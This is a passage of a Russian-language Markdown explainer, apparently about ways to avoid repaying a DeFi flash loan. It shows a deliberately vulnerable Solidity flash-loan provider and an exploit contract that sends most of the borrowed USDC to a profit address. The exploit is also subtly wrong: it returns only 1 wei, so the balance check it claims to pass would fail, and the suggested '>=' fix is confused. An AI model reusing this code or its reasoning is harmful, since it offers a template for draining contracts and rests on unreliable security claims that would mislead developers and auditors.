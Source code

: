 **Проблемы**:
- Selfdestruct выполняется в конце транзакции
- До этого момента проверка возврата уже произойдет
- В Ethereum 2.0 selfdestruct ограничен

## 💡 ЕДИНСТВЕННЫЙ РЕАЛЬНЫЙ СПОСОБ: Уязвимости в коде

### Если флеш-займ провайдер имеет баг:
```solidity
// УЯЗВИМЫЙ код провайдера
contract VulnerableFlashLoan {
    function flashLoan(address token, uint256 amount) external {
        uint256 balanceBefore = IERC20(token).balanceOf(address(this));
        
        IERC20(token).transfer(msg.sender, amount);
        
        // Вызываем callback
        IFlashLoanReceiver(msg.sender).onFlashLoan(amount);
        
        // БАГ: Неправильная проверка баланса
        uint256 balanceAfter = IERC20(token).balanceOf(address(this));
        require(balanceAfter > balanceBefore, "Not repaid"); // Должно быть >=
        
        // Или другой баг: не проверяем fee
        // require(balanceAfter >= balanceBefore + fee, "Fee not paid");
    }
}
```

**Как эксплуатировать**:
```solidity
contract ExploitVulnerableFlashLoan {
    function exploit() external {
        // Возвращаем на 1 wei больше чем взяли, но без fee
        vulnerableProvider.flashLoan(USDC, 100000e6);
    }
    
    function onFlashLoan(uint256 amount) external {
        // Переводим почти все токены себе
        USDC.transfer(PROFIT_ADDRESS, amount - 1);
        
        // Возвращаем на 1 wei больше (проходит проверку > balanceBefore)
        USDC.transfer(vulnerableProvider, 1);
        
        // Но fee не платим! Чистая прибыль: amount - 1
    }
}
```

## ⚠️ ПОЧЕМУ ЭТО ПРАКТИЧЕСКИ НЕВОЗМОЖНО
